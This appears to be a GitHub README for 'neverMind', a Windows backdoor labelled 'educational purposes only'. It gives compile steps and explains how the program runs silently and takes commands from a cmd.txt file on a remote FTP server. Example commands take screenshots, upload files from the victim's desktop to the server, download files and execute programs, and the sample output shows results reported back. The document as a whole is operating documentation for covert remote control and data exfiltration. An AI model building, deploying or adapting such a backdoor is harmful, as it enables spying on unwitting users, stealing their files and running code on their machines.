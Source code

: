 # neverMind

**educational purposes only!**

read more on my [blog](https://www.bsssq.xyz/posts/2024/01/nevermind/)!

# compile (on windows)

1. open developer command prompt in visual studio (this uses the MSVC compiler)

2. navigate to directory where `main.cpp` is stored

3. compile using `cl`

```bash
cl /EHsc main.cpp
```

once you have the executable, click it and the backdoor runs silently in the background. 

# overview (quick)

the program is controlled remotely via commands stored in a file on an FTP server. 

1. FTP server setup: the program requires an FTP server to be set up with a specific directory structure. the server must have a directory with the same name as the windows username of the target system. inside this directory, there should be a file named `cmd.txt` that contains the commands to be executed.

2. command file: the `cmd.txt` file contains the commands that the program executes. each line in the file represents a separate command. the program supports several commands: `print`, `screen`, `upload`, `download`, `exec`.

- example of `cmd.txt`:

```bash
print hello, world!
screen 1
upload C:\\Users\\bilal\\Desktop\\file.txt file.txt
download file2.txt
exec notepad.exe
```

the program is instructed to:

- print the message "hello, world!"

- take 1 (one) screenshot

- upload the file `C:\\Users\\bilal\\Desktop\\file.txt` to the FTP server with the name `file.txt`

- download the file `file2.txt` from the FTP server

- execute the command `notepad.exe` which opens the notepad app

3. output upload: after executing the commands, the program uploads an `output.txt` to the FTP server. this file contains the output of the executed commands and any error messages.

- example of `output.txt`:

```bash
[PRINT][>] hello, world! [<]
[SCREEN][++] screenshot saved >> C:\\Users\\bilal\\AppData\\Local\\SystemConnect\\data\\screenshot1.bmp [++]
[UPLOAD][++] file C:\\Users\\bilal\\Desktop\\file.txt upload as file.txt successful [++]
[DOWNLOAD][++] file file2.txt download successful [++]
```


